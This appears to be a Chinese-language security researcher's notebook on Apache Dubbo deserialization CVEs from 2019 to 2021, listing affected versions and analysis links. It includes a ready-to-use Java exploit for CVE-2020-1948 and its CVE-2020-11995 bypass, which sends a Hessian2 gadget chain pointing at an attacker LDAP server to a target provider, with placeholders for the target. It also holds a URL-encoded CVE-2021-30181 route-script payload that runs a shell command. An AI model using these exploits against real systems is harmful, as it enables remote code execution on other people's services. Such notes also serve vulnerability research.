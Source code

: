 # Dubbo 

>Apache Dubbo 是伪装的、轻量级的Java RPC 服务框架。[RPC服务](https://www.zhihu.com/question/25536695) 
>[默认反序列化利用之hessian2](https://www.anquanke.com/post/id/197658)

### CVE-2019-17564
>spring (spring-web（5.1.9.RELEASE）) 的httpinvoker 可能存在反序列化漏洞 [docs](https://docs.spring.io/spring-framework/docs/5.1.0.RELEASE/spring-framework-reference/integration.html#remoting-httpinvoker)

http://www.lmxspace.com/2020/02/16/Apache-Dubbo%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/

https://www.mi1k7ea.com/2021/07/03/%E6%B5%85%E6%9E%90Dubbo-HttpInvokerServiceExporter%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/

演示：https://github.com/vulhub/vulhub/blob/master/dubbo/CVE-2019-17564/README.zh-cn.md

### CVE-2020-1948
https://www.anquanke.com/post/id/209251
```
2.7.0 <= Dubbo Version <= 2.7.6
2.6.0 <= Dubbo Version <= 2.6.7
Dubbo 所有 2.5.x 版本（官方团队目前已不支持）
```

### CVE-2020-11995

CVE-2020-1948的绕过

```
Dubbo 2.7.0 ~ 2.7.8
Dubbo 2.6.0 ~ 2.6.8
Dubbo 所有 2.5.x 版本
```

```java
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;
import marshalsec.util.Reflections;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;

/**
 *  CVE-2020-1948 exp
 *  if (!RpcUtils.isGenericCall(path, getMethodName()) && !RpcUtils.isEcho(path, getMethodName())) {
 *       throw new IllegalArgumentException("Service not found:" + path + ", " + getMethodName());
 *  }
 * 下面有绕过CVE-2020-11995
 * 调用的函数名为 "$invoke"、 "$invokeAsync"、"$echo"三者之一
 */
public class GadgetsTestHessian {

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://127.0.0.1:43658/ExecObject");
        rs.setMatchColumn("foo");
        Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

        HashMap s = new HashMap<>();
        Reflections.setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        Reflections.setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        out.writeUTF("2.0.2");
        //todo 此处填写注册中心获取到的service全限定名、版本号、方法名
        out.writeUTF("com.threedr3am.learn.server.boot.DemoService");
        out.writeUTF("1.0");
        out.writeUTF("$invoke");//CVE-2020-11995  $invoke,$invokeAsync,$echo
        //todo 方法描述不需要修改，因为此处需要指定map的payload去触发
        out.writeUTF("Ljava/util/Map;");
        out.writeObject(s);
        out.writeObject(new HashMap());

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

//todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 12345);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```
### CVE-2021-25641
>Dubbo Provider即服务提供方默认使用dubbo协议来进行RPC通信，而dubbo协议默认是使用Hessian2序列化格式进行对象传输的,不过可以通过更改dubbo协议的第三个flag位字节来更改为使用Kryo或FST序列化格式来进行Dubbo Provider反序列化攻击从而绕过针对Hessian2反序列化相关的限制来达到RCE。

https://www.mi1k7ea.com/2021/06/30/%E6%B5%85%E6%9E%90Dubbo-KryoFST%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25641%EF%BC%89/

```
CVE-2021-25641 利用版本需要判断

一方面dubbo-common必须<=2.7.3版本另一方面fj的版本要<=1.2.49 并且在2.7.4.1的版本中已经更新了fj版本所以不能使用(只是目前)

```
~~可以整理一个fastjson利用gadget~~

### CVE-2021-30179

分析：https://mp.weixin.qq.com/s/vHJpE2fZ8Lne-xFggoQiAg
实验：https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247488856&idx=1&sn=ee37514a5bfbf8c35f4ec661a4c7d45a&chksm=903933a8a74ebabecaf9428995491494f20e5b24a15f8d52e79d3a9dac601620c21d097cdc1f&scene=21#wechat_redirect

```
Apache Dubbo 2.7.0 to 2.7.9
Apache Dubbo 2.6.0 to 2.6.9
Apache Dubbo all 2.5.x versions (官方已不再提供支持)

实验：https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247488856&idx=1&sn=ee37514a5bfbf8c35f4ec661a4c7d45a&chksm=903933a8a74ebabecaf9428995491494f20e5b24a15f8d52e79d3a9dac601620c21d097cdc1f&scene=21#wechat_redirect

```
exp:https://github.com/lz2y/DubboPOC
```
Apache Dubbo默认支持泛化引用由服务端API接口暴露的所有方法，这些调用由GenericFilter处理。GenericFilter将根据客户端提供的接口名、方法名、方法参数类型列表，根据反射机制获取对应的方法，再根据客户端提供的反序列化方式将参数进行反序列化成pojo对象。

也就是说需要知道注册中心注册的接口名，方法名，才可以配合攻击。
```
也就是需要存在无授权服务注册中心比如zookeeper的无授权去获得接口名和方法名。使用工具**zookeeper-dev-ZooInspector.jar**

**个人认为CVE-2021-30179的主要思路就是Apache Dubbo在处理泛类引用时，提供了多种通过反序列化方式得到对象再生成pojo对象的选择。** 三梦师傅说跟这个思路扩大了反序列化挖掘思路

### CVE-2021-30181

https://articles.zsxq.com/id_28iczv3uhbtk.html

```exp
script%3A%2F%2F127.0.0.1%2Fcom.threedr3am.learn.server.boot.DemoService%3Fapplication%3Ddubbo-consumer%26category%3Drouters%26check%3Dfalse%26dubbo%3D2.0.2%26init%3Dfalse%26interface%3Dcom.threedr3am.learn.server.boot.DemoService%26metadata-type%3Dremote%26methods%3Dhello%26pid%3D53953%26qos.enable%3Dfalse%26release%3D2.7.7%26revision%3D1.0%26side%3Dconsumer%26sticky%3Dfalse%26timestamp%3D1622381389749%26version%3D1.0%26route%3Dscript%26type%3Djavascript%26rule%3Ds%253D%255B3%255D%253Bs%255B0%255D%253D'%252Fbin%252Fbash'%253Bs%255B1%255D%253D'-c'%253Bs%255B2%255D%253D'open%2520-a%2520calculator'%253Bjava.lang.Runtime.getRuntime().exec(s)%253B
```

### Dubbo反序列化RCE利用之新拓展面 - Dubbo Rouge攻击客户端

https://xz.aliyun.com/t/7354

**文章中有一点非常强**
![image](https://user-images.githubusercontent.com/63966847/139078049-28694796-bb21-40fe-9e8d-38d96da29ab8.png)

在一次看了threedr3am师傅的文章太精彩了，简单的说就是通过注册中心上注册恶意rpc服务并且设置序列化为java原生序列化，等待客户端去连接。
也就是**rouge**,中文名称叫胭脂，hhh 有点美人计的味道了。

### CVE-2021-43297

https://paper.seebug.org/1814/
